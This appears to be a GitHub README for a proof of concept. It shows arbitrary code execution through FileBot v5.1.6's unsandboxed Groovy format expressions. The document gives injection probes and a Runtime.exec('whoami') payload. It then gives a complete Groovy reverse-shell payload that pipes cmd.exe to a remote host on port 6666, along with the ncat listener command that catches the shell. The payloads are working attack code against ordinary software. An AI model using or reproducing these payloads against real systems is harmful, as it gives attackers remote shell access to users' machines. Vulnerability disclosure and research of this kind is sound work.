 # unsandboxed-groovy-poc

Intended but Dangerous Unsandboxed Scripting Feature or Arbitrary Code Execution (ACE) / Code Injection Vulnerability?
Tested with FileBot v5.1.6


## Initial Testing

```{{7*7}}```

![image](https://github.com/user-attachments/assets/3a52a280-c553-4e50-a4e9-5d062ef6842d)


```{{7/0}}```

![image](https://github.com/user-attachments/assets/b7f54b29-5105-496b-ab7f-5d5b77ff1255)


```{"foo".toUpperCase()}```

![image](https://github.com/user-attachments/assets/cdd60f92-17ff-4ca9-99ae-bb5071bb3a24)


## Determine the backend language to be Apache Groovy

```java
${T(java.lang.Runtime).getRuntime().exec('whoami')}
```
![image](https://github.com/user-attachments/assets/78055dcd-ba25-4154-bfa4-68a8f819950a)

![image](https://github.com/user-attachments/assets/5bcdc26f-5465-40d6-8546-ca2e611ba179)


## More Testing

```java
{def shell = new GroovyShell()  }
```

![image](https://github.com/user-attachments/assets/e7d6c3a7-b16d-4989-85fa-805c5e686acd)


```java
{def shell = new GroovyShell()                           
def result = shell.evaluate '3*5'}
```

![image](https://github.com/user-attachments/assets/99230eab-3a31-4424-94ed-ec21dbed59cb)



## Reverse Shell

```java
{String host="192.168.1.X";
int port=6666;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();}
```

![image](https://github.com/user-attachments/assets/fd5f8741-2510-4072-bdff-c752a018b81c)


```bash
ncat.exe -lvnp 6666
```

![image](https://github.com/user-attachments/assets/d40a6aa4-0498-47fa-8cf0-6bab2a24dac6)


## Code

https://github.com/mobeigi/filebot/blob/master/source/net/filebot/format/ExpressionFilter.java

![image](https://github.com/user-attachments/assets/d22f861b-0779-41c4-b1cb-436d6f98771b)
